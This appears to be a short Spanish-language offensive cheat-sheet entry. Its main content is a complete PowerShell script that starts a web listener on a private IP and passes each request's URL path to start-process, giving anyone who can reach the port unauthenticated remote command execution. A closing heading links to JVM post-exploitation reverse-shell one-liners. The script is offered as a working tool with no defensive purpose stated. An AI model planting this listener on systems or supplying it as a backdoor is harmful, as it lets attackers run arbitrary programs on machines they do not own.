 ## Ejecutar un comando remotamente utilizando un servidor web creado en PowerShell
```Powershell
$routes = @{
    "/" = { return '<html><body>Servidor web funcionando</body></html>' }
}

#Importante poner la IP de la red privada
$url = 'http://192.168.204.222:8027/'
$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add($url)
$listener.Start()

Write-Host "Funcionando $url..."

while ($listener.IsListening)
{
    $context = $listener.GetContext()
    $requestUrl = $context.Request.Url
    $response = $context.Response

    Write-Host ''
    Write-Host "Petición: $requestUrl"

    $localPath = $requestUrl.LocalPath
    $route = $routes.Get_Item($requestUrl.LocalPath)

    if ($route -eq $null)
    {
        $response.StatusCode = 404
    }
    else
    {
        
        $content = & $route
        $buffer = [System.Text.Encoding]::UTF8.GetBytes($content)
        $response.ContentLength64 = $buffer.Length
        $response.OutputStream.Write($buffer, 0, $buffer.Length)
    }
    
    $response.Close()
    start-process ($context.Request.RawUrl -replace "/")
    $context.Request.RawUrl
    $responseStatus = $response.StatusCode
    Write-Host "Respuesta: $responseStatus"
}
```

## JVM Post-Exploitation One-Liners (Reverse Shell)
* https://gist.github.com/frohoff/a976928e3c1dc7c359f8
